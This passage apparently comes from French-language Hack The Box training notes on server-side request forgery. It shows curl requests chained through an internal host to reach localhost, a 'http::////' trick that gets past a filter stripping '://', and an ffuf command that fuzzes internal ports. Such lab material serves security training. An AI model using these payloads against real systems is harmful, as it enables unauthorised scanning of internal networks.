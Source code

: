   cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 97
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:52:32 GMT

<html><body><h1>Resource: http127.0.0.1:1</h1><a>unknown url type: http127.0.0.1</a></body></html>

```

Nous avons reçu un `unknown url type`message d'erreur. Il semble que l'application Web soit supprimée `://`de notre demande. Essayons de surmonter cette situation en modifiant l'URL.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 99
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 14:55:10 GMT

<html><body><h1>Resource: http://127.0.0.1:1</h1><a>[Errno 111] Connection refused</a></body></html>

```

Dans ce cas, l'application Web renvoie du contenu rendu HTML contenant la ressource que nous essayons de récupérer. Cette réponse affectera notre découverte de service interne si nous utilisons la taille de la réponse comme filtre car elle changera en fonction du port. Heureusement pour nous, ffuf prend en charge les expressions régulières pour le filtrage. Nous pouvons utiliser cette fonction ffuf pour utiliser le numéro d'erreur pour filtrer les réponses, comme suit.

#### Fuzzing de ports

  Fuzzing de ports

```
dsgsec@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
```